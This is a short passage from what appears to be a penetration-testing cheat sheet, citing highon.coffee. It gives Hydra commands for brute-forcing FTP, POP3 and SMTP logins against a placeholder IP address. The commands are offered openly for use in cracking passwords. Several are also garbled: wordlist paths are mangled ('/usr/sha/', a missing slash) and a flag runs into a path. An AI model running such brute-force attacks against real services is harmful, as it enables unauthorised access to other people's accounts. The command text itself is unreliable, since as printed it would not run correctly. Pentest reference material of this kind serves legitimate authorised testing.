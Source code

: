 # Brute Forcing Services [[2]]

### Hydra FTP Brute Force

	hydra -l USERNAME -P /usr/share/wordlistsnmap.lst-f 
	192.168.X.XXX ftp -V

### Hydra POP3 Brute Force

	hydra -l USERNAME -P /usr/sha/wordlistsnmap.lst-f 
     192.168.X.XXX pop3 -V
     
### Hydra SMTP Brute Force

	hydra -P /usr/share/wordlistsnmap.lst 192.168.X.XXX smtp -V
	



[2]: <https://highon.coffee/blog/penetration-testing-tools-cheat-sheet/#brute-forcing-services>
